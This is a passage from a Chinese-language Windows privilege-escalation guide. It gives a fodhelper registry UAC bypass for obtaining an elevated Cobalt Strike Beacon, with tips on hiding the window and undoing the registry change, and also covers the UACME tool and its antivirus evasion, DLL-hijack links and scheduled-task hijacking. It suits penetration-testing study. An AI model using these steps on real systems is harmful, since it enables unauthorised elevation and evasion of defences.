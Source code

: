 ```powershell
New-ItemProperty -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Name DelegateExecute -Force
```

最后运行 C:\\Windows\\System32\\fodhelper.exe，将读取对应注册表值并运行得到高完整性级别 Beacon，需要注意的是如果使用 CMD 直接运行会闪一下窗口，可以将命令替换成 PowerShell 隐藏窗口运行。

利用完成要执行恢复操作，将注册表 HKCU:\\Software\\Classes 中 ms-settings 删除即可。

```powershell
Remove-Item "HKCU:\Software\Classes\ms-settings\" -Recurse -Force
```

```plaintext
reg delete HKCU\Software\Classes\ms-settings\ /f
```

##### UACME 利用工具

[UACME](https://github.com/hfiref0x/UACME) 可以自动化完成利用。

需要主动编译 Akagi，默认会被杀软拦截需要绕过静态查杀。

用法：

```plaintext
akagi64 [Key] [Param]
```

我这里用 33 号方法 Bypass UAC 执行 cmd

```plaintext
Akagi64.exe 33 cmd
```

#### 1.5.3 DLL Hijacking⚒️

##### SystemPropertiesAdvanced.exe

[https://egre55.github.io/system-properties-uac-bypass/](https://egre55.github.io/system-properties-uac-bypass/)

##### msdt.exe

[https://blog.sevagas.com/?MSDT-DLL-Hijack-UAC-bypass](https://blog.sevagas.com/?MSDT-DLL-Hijack-UAC-bypass)

### 1.6 Scheduled Task

假设一个场景，公司的 Windows Server 上自己开发了个日志收集程序，每隔一段时间运行备份。如果有权限操作，重命名备份源文件，将 Payload 名称改为日志收集程序上线。

思路和 [1.3.2 Weak Service Permissions](#1.3.2+Weak+Service+Permissions) 利用一样，通过观察 `Task To Run:`、`要运行的任务:` 来得知要运行的任务是什么，看 `Run As User:`、`作为用户运行:` 来确认使用什么用户运行。

这里使用 PowerShell 快速筛有哪些任务。如果担心 PowerShell 会被拦截，可以改用 schtasks。

```plaintext
PS C:\Users\gbb> Get-ScheduledTask| Format-Table  -AutoSize

TaskPath                                                               TaskName                                                                    State
--------                                                               --------                                                                    -----
\                                                                      CreateExplorerShellUnelevatedTask                                           Ready
\                                                                      NvDriverUpdateCheckDaily_{B2FE1952-0186-46C3-BAEC-A80AA35AC5B8}             Ready
\                                                                      NVIDIA GeForce Experience SelfUpdate_{B2FE1952-0186-46C3-BAEC-A80AA35AC5B8} Ready
\                                                                      NvNodeLauncher_{B2FE1952-0186-46C3-BAEC-A80AA35AC5B8}                       Ready
```
